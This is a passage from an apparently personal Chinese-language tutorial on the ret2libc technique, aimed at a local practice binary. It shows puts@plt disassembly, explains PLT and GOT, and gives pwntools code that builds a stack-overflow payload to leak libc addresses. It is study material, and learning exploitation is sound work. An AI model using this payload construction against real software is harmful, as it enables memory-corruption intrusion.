 	这是从`libc`表中拿到的偏移地址，作为准备

2. 通过读汇编 ，找到函数在`plt`代码模块中puts函数的绝对地址

	```asm
	#python
	puts_plt = 0x08048370
	puts_got = 0x804a018
	
	#vul.asm
	08048370 <puts@plt>:
	 8048370:	ff 25 18 a0 04 08    	jmp    *0x804a018
	 8048376:	68 18 00 00 00       	push   $0x18
	 804837b:	e9 b0 ff ff ff       	jmp    8048330 <.plt>
	```

	plt是代码，里面去call `got`里面的地址，也就是`libc	`中的函数地址，`got`只是一个放地址的数据表。

	可以通过`readelf -S vul`找到 got 和 plt 的库的位置

3. 把你获得的地址扔给buffer，把返回地址覆盖成库函数的地址

	```python
	p = process(path)
	
	rop  = p32(puts_plt)#fake ret
	rop += p32(main_addr)#puts的return addr
	rop += p32(puts_got)#arg for puts
	
	payload = "A"*(0x28 + 4) + rop + '\n'
	
	p.send(payload)
	```

	<img src="ret2libc.assets/image-20220405141303665.png" alt="image-20220405141303665" style="zoom:67%;" />
